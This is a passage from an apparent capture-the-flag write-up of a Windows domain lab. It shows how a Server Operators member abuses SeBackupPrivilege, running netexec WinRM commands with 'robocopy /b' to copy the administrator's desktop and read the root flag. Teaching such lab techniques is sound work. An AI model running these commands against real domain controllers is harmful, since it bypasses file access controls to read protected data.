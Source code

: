 <figure><img src="../../.gitbook/assets/return_bh_flag.png" alt=""><figcaption><p>Figure 6: Collecting domain information and reading the user flag.</p></figcaption></figure>

Looking at `svc-printer` a group membership stands out right away: [`Server Operators`](../../tl-dr/active-directory/groups/server-operators.md) (Figure 6). Member of this group have the [`SeBackupPrivilege`](../../tl-dr/active-directory/privileges/sebackupprivilege.md) and the `SeRestorePrivilege` which allows them to perform some interesting operations on a DC.

<figure><img src="../../.gitbook/assets/return_server_oper.png" alt=""><figcaption><p>Figure 6: Group memberships of the <code>svc-printer</code> account.</p></figcaption></figure>

### Robocopy

The easiest way to leverage this membership, is using `robocopy` to copy the `administrator`'s `desktop` directory and the read the `root.txt` flag (Figure 7).

{% code overflow="wrap" %}
```bash
# copying the administrator's desktop directory
nxc winrm 10.10.11.108 -u svc-printer -p svc-printer_pass -x 'robocopy /b C:\users\administrator\desktop C:\programdata\temp'
# reading the root flag
nxc winrm 10.10.11.108 -u svc-printer -p svc-printer_pass -x 'type C:\programdata\temp\root.txt'
```
{% endcode %}

